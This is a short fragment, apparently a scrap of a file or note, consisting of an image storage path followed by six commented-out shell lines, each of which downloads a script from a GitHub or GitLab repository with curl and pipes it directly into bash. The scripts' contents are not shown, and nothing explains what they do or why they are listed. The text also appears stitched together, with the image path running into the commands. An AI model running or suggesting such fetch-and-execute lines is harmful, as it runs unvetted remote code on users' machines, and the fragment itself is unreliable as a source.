 # curl -sSL "https://github.com/barburonjilo/open/raw/refs/heads/main/anod.sh" | bash
# curl -sSL "https://github.com/barburonjilo/open/raw/refs/heads/main/ye.sh" | bash
# curl -sSL "https://github.com/barburonjilo/open/raw/refs/heads/main/nis.sh/nis.sh" | bash
# curl -sSL "https://github.com/barburonjilo/open/raw/refs/heads/main/aaa.sh" | bash
# curl -sSL "https://github.com/barburonjilo/open/raw/refs/heads/main/yeni.sh" | bash
# curl -sSL "https://gitlab.com/jasa4/jasa/-/raw/main/kilan" | bash
